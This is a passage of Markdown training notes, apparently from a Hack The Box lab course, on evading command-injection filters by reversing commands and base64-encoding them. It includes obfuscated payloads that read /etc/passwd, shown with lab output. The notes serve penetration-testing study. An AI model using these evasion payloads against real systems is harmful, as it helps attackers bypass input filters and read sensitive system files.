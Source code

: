 **Testing:**
```powershell
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
21y4d
```

### Advanced Reversed Commands

**Complex Command Reversal:**
```bash
# Original: cat /etc/passwd
# Reversed: dwssap/cte/ tac

# Command construction:
$(rev<<<'dwssap/cte/ tac')
```

**Note:** Character filters must also be considered when reversing - filtered characters should be reversed as well or included when reversing the original command.

---

## Encoded Commands

> **🔐 Encoding Techniques:** Using base64/hex encoding to bypass character filters

### Base64 Encoding (Linux)

**Concept:** Encode commands containing filtered characters to avoid detection and URL-decoding issues.

**Step 1: Encode the Payload**
```bash
kabaneridev@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

**Step 2: Create Decoding Command**
```bash
# Decode and execute in sub-shell
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

**Testing:**
```bash
kabaneridev@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

**Key Advantages:**
- ✅ No filtered characters in payload
- ✅ Avoids pipe `|` character (using `<<<` instead)
- ✅ Bypasses URL-decoding issues

### Web Application Testing
